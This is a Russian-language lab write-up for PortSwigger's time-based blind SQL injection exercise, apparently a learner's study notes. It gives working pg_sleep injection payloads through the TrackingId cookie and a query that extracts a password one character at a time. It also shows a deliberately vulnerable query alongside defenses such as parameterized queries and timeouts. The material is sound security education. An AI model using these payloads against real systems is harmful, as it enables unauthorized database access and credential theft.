



## Lab: Blind SQL injection with time delays

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-19 

---

## TL;DR
Cookie `TrackingId` уязвим к Blind SQL инъекции на базе PostgreSQL.
Нет ни видимых данных, ни булева индикатора, ни видимых ошибок.
Единственный канал — **время ответа**. Через `pg_sleep(10)`
вызвана задержка в 10 секунд — инъекция подтверждена.

---

## Описание уязвимости

### Почему работает time-based инъекция

SQL запросы на сервере выполняются **синхронно** — сервер ждёт
пока запрос завершится прежде чем отправить HTTP ответ.
Если заставить БД ждать — HTTP ответ тоже придёт с задержкой.

```
Без инъекции:
Запрос → БД → мгновенный результат → HTTP ответ (< 1 сек)

С pg_sleep(10):
Запрос → БД → ждёт 10 секунд → HTTP ответ (≈ 10 сек)
```

### pg_sleep() — PostgreSQL специфичная функция

```sql
pg_sleep(10)  -- приостанавливает выполнение на 10 секунд

-- Аналоги в других БД:
-- MySQL:     SLEEP(10)
-- MSSQL:     WAITFOR DELAY '0:0:10'
-- Oracle:    dbms_pipe.receive_message(('a'),10)
```

### Почему конкатенация || а не AND

```sql
-- Через конкатенацию:
TrackingId=x'||pg_sleep(10)--

-- Оригинальный запрос:
SELECT * FROM tracking WHERE id='x'||pg_sleep(10)--'

-- || конкатенирует результат pg_sleep к строке 'x'
-- pg_sleep выполняется как часть конкатенации
-- задержка происходит независимо от результата WHERE
```

Если использовать `AND` — задержка сработает только если
оригинальная часть WHERE вернёт строки. Конкатенация через `||`
надёжнее — функция выполняется всегда.

---

## Эксплуатация

### Шаг 1 — Перехват запроса с TrackingId

Перехватила запрос содержащий cookie `TrackingId` в Burp Repeater.
Оригинальный запрос отвечает мгновенно — нет никаких индикаторов
уязвимости.



### Шаг 2 — Проверка через одинарную кавычку

Добавила одинарную кавычку:

```
TrackingId=x'
```

Ответ пришёл — но никакой видимой разницы нет. Ни ошибки,
ни изменения контента. Это и есть "слепая" инъекция в чистом виде.



### Шаг 3 — Time-based payload через pg_sleep

Заменила значение cookie на:

```
TrackingId=x'||pg_sleep(10)--
```

Отправила запрос. Ответ пришёл через **~10 секунд** — задержка
подтверждает что:
- Инъекция работает
- База данных PostgreSQL (`pg_sleep` специфична для PostgreSQL)
- Запросы выполняются синхронно

```sql
-- Что выполняется на сервере:
SELECT * FROM tracking WHERE id='x'||pg_sleep(10)--'
-- pg_sleep(10) выполняется → БД ждёт 10 сек → HTTP ответ задерживается
```



---

## Итог

```
Оригинальный запрос        → мгновенный ответ (< 1 сек)
TrackingId=x'              → мгновенный ответ (нет видимой реакции)
TrackingId=x'||pg_sleep(10)-- → ответ через ~10 секунд ✓
```

Time-based инъекция подтверждена. База данных — PostgreSQL.

### Как это используется для извлечения данных

В этой лабе цель только подтвердить задержку. Но в реальной
атаке через time-based можно извлечь данные посимвольно —
точно как в conditional responses, только индикатор другой:

```sql
-- Если первый символ пароля = 'a' → задержка 10 сек
-- Если нет → ответ мгновенный
TrackingId=x'||(SELECT CASE WHEN (SUBSTRING(password,1,1)='a')
THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users
WHERE username='administrator')--
```

Это самый медленный метод — 720 запросов по 10 секунд каждый
= ~2 часа на извлечение одного пароля. Поэтому time-based
используют только когда все остальные методы недоступны.

### Сравнение всех типов Blind SQLi

```
Метод                  Индикатор              Скорость
──────────────────────────────────────────────────────
Conditional responses  Welcome back / нет     быстро
Conditional errors     HTTP 500 / 200         быстро
Visible error-based    данные в ошибке        очень быстро
Time-based             задержка / нет         очень медленно
Out-of-band            DNS/HTTP запрос        быстро (нужен Collaborator)
```

Time-based — самый медленный но работает там где все остальные
методы не дают никакой обратной связи.

---

## Защита

```python
# УЯЗВИМО:
query = f"SELECT * FROM tracking WHERE id='{tracking_id}'"
cursor.execute(query)

# БЕЗОПАСНО — параметризованный запрос:
query = "SELECT * FROM tracking WHERE id=%s"
cursor.execute(query, (tracking_id,))
```

Дополнительно:
- Параметризованные запросы исключают инъекцию полностью —
  pg_sleep() в параметре просто станет частью строки поиска
  а не выполнимым SQL кодом
- Таймаут на SQL запросы — если запрос выполняется дольше
  N секунд, принудительно завершать его:
```sql
-- PostgreSQL: установить statement_timeout
SET statement_timeout = '5s';
-- Запросы длиннее 5 секунд будут отменены
```
- Rate limiting — множество медленных запросов от одного IP
  должны вызывать блокировку
- Мониторинг аномально долгих запросов в логах БД